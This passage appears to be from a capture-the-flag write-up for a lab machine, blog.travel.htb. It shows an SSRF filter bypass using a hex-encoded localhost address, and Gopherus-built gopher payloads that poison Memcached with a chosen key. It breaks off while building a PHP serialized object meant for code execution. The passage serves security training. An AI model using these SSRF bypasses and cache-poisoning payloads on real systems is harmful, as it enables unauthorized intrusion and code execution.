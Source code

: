 This is the full MD5 hash of the string that was found earlier _"xct_4e5612ba07"_.

The next step is to send a poisoned cookie to the **Memcached** service.
As there are some filters on _template.php_ that make **SSRF** harder, those have to be bypassed.

Bypassing the 127.0.0.1-filter by using hexadecimal:
```
GET /awesome-rss/?custom_feed_url=http://0x7F000001:11211/ HTTP/1.1
Host: blog.travel.htb
```

The block of _file://_ can be bypassed by using **Gopher** as the protocol.
The tool [Gopherus](https://github.com/tarunkant/Gopherus) will help to generate Gopher payloads:
```
gopherus.py --exploit phpmemcache

example: O:5:"Hello":0:{}   : test

Your gopher link is ready to do SSRF :
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0atest%0d%0a
```

Sending the malicious payload to the local **Memcached** by abusing **SSRF vulnerability**:
```
GET /awesome-rss/?custom_feed_url=gopher://0x7F000001:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0atest%0d%0a HTTP/1.1
Host: blog.travel.htb
```

The PHP serialized object is now poisoned:
```
GET /wp-content/themes/twentytwenty/debug.php HTTP/1.1
Host: blog.travel.htb
```
```
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
| SpyD3r | test |
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```

Making the first string useful by using the MD5 hash there:
```
GET /awesome-rss/?custom_feed_url=gopher://0x7F000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%204%0d%0atest%0d%0a HTTP/1.1
Host: blog.travel.htb
```
```
GET /wp-content/themes/twentytwenty/debug.php HTTP/1.1
Host: blog.travel.htb
```
```
| xct_4e5612ba07(...) | test |
```

Now a payload is needed as the PHP serialized object to execute code:
```php
class TemplateHelper
{

    public $file;
    public $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    private function init(string $file, string $data)
    {    
        $this->file = $file;
```